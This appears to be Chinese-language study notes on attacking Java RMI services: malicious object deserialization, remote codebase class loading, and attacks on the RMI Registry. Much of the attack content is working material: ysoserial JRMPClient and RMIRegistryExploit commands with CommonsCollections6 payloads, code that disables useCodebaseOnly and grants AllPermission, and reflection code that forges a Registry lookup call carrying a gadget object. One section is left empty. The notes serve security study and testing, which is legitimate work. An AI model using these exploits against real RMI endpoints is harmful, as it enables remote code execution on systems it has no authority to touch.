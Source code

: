 ## RMI和JNDI攻击向量

### 客户端攻击服务端

**情况1：**
假设服务端存在一个公共的已知PublicKnown类（比如经典的Apache Common Collection，这里只是用PublicKnown做一个类比），它有readObject方法并且在readObject中存在命令执行的能力，所以我们客户端可以写一个与服务端包名，类名相同的类并继承Message类，通过远程函数调用传递恶意对象到服务端。

**情况2：**
通过Java RMI远程类加载攻击服务端。对于服务端而言，如果客户端传递的方法参数是远程对象接口方法参数类型的子类，那么服务端需要从客户端提供的java.rmi.server.codebaseURL去加载对应的类。

无论是客户端还是服务端要远程加载类，都需要满足以下条件：

* 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置java.security.policy，这在后面的利用中可以看到。
* 属性 java.rmi.server.useCodebaseOnly 的值必需为false。但是从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前虚拟机的java.rmi.server.codebase 指定路径加载类文件。使用这个属性来防止虚拟机从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
```java
    //如果需要使用RMI的动态加载功能，需要开启RMISecurityManager，并配置policy以允许从远程加载类库
    System.setProperty("java.security.policy", RMIServer.class.getClassLoader().getResource("java.policy").getFile());
    RMISecurityManager securityManager = new RMISecurityManager();
    System.setSecurityManager(securityManager);
    //但是从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件,
    System.setProperty("java.rmi.server.useCodebaseOnly","false");
```
```
java.policy
// Standard extensions get all permissions by default

grant {
	permission java.security.AllPermission;
};

```

### 服务端攻击客户端

**情况1：**
服务端如果想要攻击客户端，那么利用点就是存在客户端反序列化服务端的返回值的时候，即客户端存在公共的已知PublicKnown类（比如经典的Apache Common Collection，这里只是用PublicKnown做一个类比），它有readObject方法并且在readObject中存在命令执行的能力，服务端通过返回值返回序列化的PublicKnown类型的对象。

**情况2：**
通过Java RMI远程类加载攻击服务端。对于客户端而言，如果服务端返回的对象为远程接口方法返回对象的子类，那么客户端需要从服务端提供的java.rmi.server.codebaseURL去加载对应的类。
```java
 //设置java.rmi.server.codebase,客户端从codebase加载远程类
System.setProperty("java.rmi.server.codebase", "http://127.0.0.1:8000/");
Registry reg;
try {
        // 创建Registry
        reg = LocateRegistry.createRegistry(9999);
        System.out.println("java RMI registry created. port on 9999...");
    } catch (Exception e) {
        System.out.println("Using existing registry");
        reg = LocateRegistry.getRegistry();
    }
    //绑定远程对象到Registry
reg.bind("Services", services);
......
```
和客户端攻击服务端一样，需要客户端打开安全设置，允许远程加载类。
```java
    //如果需要使用RMI的动态加载功能，需要开启RMISecurityManager，并配置policy以允许从远程加载类库
    System.setProperty("java.security.policy", RMIServer.class.getClassLoader().getResource("java.policy").getFile());
    RMISecurityManager securityManager = new RMISecurityManager();
    System.setSecurityManager(securityManager);
    //但是从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件,
    System.setProperty("java.rmi.server.useCodebaseOnly","false");
```

### 攻击注册中心
```java
(1) 利用DGC攻击RMI Registry，可以通过与DGC通信的方式发送恶意payload让注册中心反序列化
java -cp ysoserial-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 9999 
CommonsCollections6 "calc"
```
```java
(2) 利用bind/rebind请求攻击RMI Registry (JDK版本必须在8u141之前)

java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 9999 CommonsCollections6 "calc" (PS: jdk<8u121)

服务端也是可以向注册中心序列化传输远程对象,那么直接把远程对象改成反序列化Gadget看下。从Client接收到的bind或rebind的remote obj，将由sun/rmi/registry/RegistryImpl_Skel.java#dispatch处理，获取到的序列化数据直接调用了readObject函数，导致了常规的Java反序列化漏洞的触发。这里我们只需要写一个bind或rebind的操作，即可攻击到RMI Registry。

其他：(PS:jdk<8u232_b09)
// 开启JRMPListener
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "calc"
// 发起攻击
java -cp target/ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit2 127.0.0.1 1099 jrmphost 8888
或者java -cp target/ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit3 127.0.0.1 1099 jrmphost 8888

Registry对于bind/rebind的请求，会去检查这个请求是否为本地请求，对于外部的请求，Registry会拒绝该请求,所以如果要使用bind/rebind请求来远程攻击Registry，JDK版本必须在8u141之前
```
```java
(3) 利用unbind/lookup请求攻击RMI Registry (绕过JDK版本必须在8u141之前的限制)
unbind和lookup实际上都会调用readObject来读取传递过来的参数，所以同样是可以利用的。

不过这里有一个问题，当我们调用unbind或者lookup时，只允许我们传递字符串，所以没法传递我们的恶意对象。

这个问题要解决有几种办法：

* 伪造连接请求
* rasp hook请求代码，修改发送数据
我用的是第一种，也是比较简单的一种，直接通过反射就能实现。

ObjectPayload payloadObj = payloadClass.newInstance();
Object payload = payloadObj.getObject(command);
String name = "pwned" + System.nanoTime();
Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);

// 获取ref
Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
fields_0[0].setAccessible(true);
UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

//获取operations
Field[] fields_1 = registry.getClass().getDeclaredFields();
fields_1[0].setAccessible(true);
Operation[] operations = (Operation[]) fields_1[0].get(registry);

// 模拟lookup的调用代码，传递可序列化的Object类型
RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
ObjectOutput var3 = var2.getOutputStream();
var3.writeObject(remote);
ref.invoke(var2);
```
```java
(4) 
```
(4)


https://blog.0kami.cn/2020/02/06/java/rmi-registry-security-problem/
https://blog.cfyqy.com/article/154071ea.html
https://paper.seebug.org/1091/#serverrmi-server
https://xz.aliyun.com/t/7079
https://xz.aliyun.com/t/7264
http://www.codersec.net/2018/09/%E4%B8%80%E6%AC%A1%E6%94%BB%E5%87%BB%E5%86%85%E7%BD%91rmi%E6%9C%8D%E5%8A%A1%E7%9A%84%E6%B7%B1%E6%80%9D/
https://paper.seebug.org/1194/#_8
https://paper.seebug.org/1420/#_3